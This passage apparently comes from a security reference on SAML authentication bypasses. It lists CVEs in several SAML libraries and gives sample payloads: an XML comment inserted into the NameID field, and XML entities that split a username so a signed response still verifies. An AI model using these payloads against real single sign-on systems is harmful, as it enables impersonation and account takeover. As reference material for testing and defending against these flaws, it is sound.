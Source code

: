 In the Github Enterprise vulnerability, this request would verify and create a sessions for `Attacker` instead of `Legitimate User`, even if `FA` is not signed.

### XML Comment Handling

A threat actor who already has authenticated access into a SSO system can authenticate as another user without that individual’s SSO password. This [vulnerability](https://www.bleepstatic.com/images/news/u/986406/attacks/Vulnerabilities/SAML-flaw.png) has multiple CVE in the following libraries and products.

* OneLogin - python-saml - CVE-2017-11427
* OneLogin - ruby-saml - CVE-2017-11428
* Clever - saml2-js - CVE-2017-11429
* OmniAuth-SAML - CVE-2017-11430
* Shibboleth - CVE-2018-0489
* Duo Network Gateway - CVE-2018-7340

Researchers have noticed that if an attacker inserts a comment inside the username field in such a way that it breaks the username, the attacker might gain access to a legitimate user's account.

```xml
<SAMLResponse>
    <Issuer>https://idp.com/</Issuer>
    <Assertion ID="_id1234">
        <Subject>
            <NameID>user@user.com<!--XMLCOMMENT-->.evil.com</NameID>
```

Where `user@user.com` is the first part of the username, and `.evil.com` is the second.

### XML External Entity

An alternative exploitation would use `XML entities` to bypass the signature verification, since the content will not change, except during XML parsing.

In the following example:

* `&s;` will resolve to the string `"s"`
* `&f1;` will resolve to the string `"f1"`

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE Response [
  <!ENTITY s "s">
  <!ENTITY f1 "f1">
]>
<saml2p:Response xmlns:saml2p="urn:oasis:names:tc:SAML:2.0:protocol"
  Destination="https://idptestbed/Shibboleth.sso/SAML2/POST"
  ID="_04cfe67e596b7449d05755049ba9ec28"
  InResponseTo="_dbbb85ce7ff81905a3a7b4484afb3a4b"
  IssueInstant="2017-12-08T15:15:56.062Z" Version="2.0">
[...]
  <saml2:Attribute FriendlyName="uid"
    Name="urn:oid:0.9.2342.19200300.100.1.1"
    NameFormat="urn:oasis:names:tc:SAML:2.0:attrname-format:uri">
    <saml2:AttributeValue>
      &s;taf&f1;
    </saml2:AttributeValue>
  </saml2:Attribute>
[...]
</saml2p:Response>
```
